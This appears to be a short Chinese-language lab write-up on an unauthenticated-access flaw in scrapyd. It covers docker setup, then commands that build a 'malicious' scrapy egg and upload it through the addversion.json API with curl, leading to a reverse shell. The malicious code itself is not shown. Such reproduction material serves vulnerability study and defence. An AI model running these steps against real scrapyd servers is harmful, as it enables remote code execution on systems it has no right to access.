

# scrapyd 未授权访问漏洞

scrapyd 是爬虫框架 scrapy 提供的云服务，用户可以部署自己的 scrapy 包到云服务，默认监听在 6800 端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：<https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## 环境搭建

执行如下命令启动 scrapyd 服务：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:6800` 即可看到 Web 界面。

## 漏洞复现

参考 [攻击 Scrapyd 爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的 scrapy 包：

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# 编辑 evil/__init__.py, 加入恶意代码
scrapyd-deploy --build-egg=evil.egg
```

向 API 接口发送恶意包：

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹 shell：


